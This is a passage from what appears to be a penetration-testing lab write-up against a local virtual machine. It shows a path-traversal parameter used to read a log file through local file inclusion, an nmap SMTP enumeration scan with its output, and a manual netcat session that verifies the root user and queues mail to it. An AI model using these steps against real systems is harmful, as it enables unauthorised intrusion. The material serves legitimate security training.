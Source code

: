 Tried `bolo=../../../../../../var/log/apt/history`

![6](img/6.png)

### Postfix smtpd

``` bash
===============================25===============================
nmap 192.168.56.102 -p25 --script=smtp-*
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-17 12:45 EDT
Nmap scan report for 192.168.56.102
Host is up (0.00061s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: straylight, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| smtp-enum-users: 
|_  Method RCPT returned a unhandled status code.
|_smtp-open-relay: Server doesn't seem to be an open relay, all tests failed
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
MAC Address: 08:00:27:96:17:9F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 31.46 seconds
```

Using nc to access to smtp service

``` bash
┌──(Hades㉿192.168.56.110)-[4.2:41.3]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
vrfy root
252 2.0.0 root
mail from: "root@localhost"
250 2.1.0 Ok
rcpt to: "root"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
root
.
250 2.0.0 Ok: queued as 3674F5516
```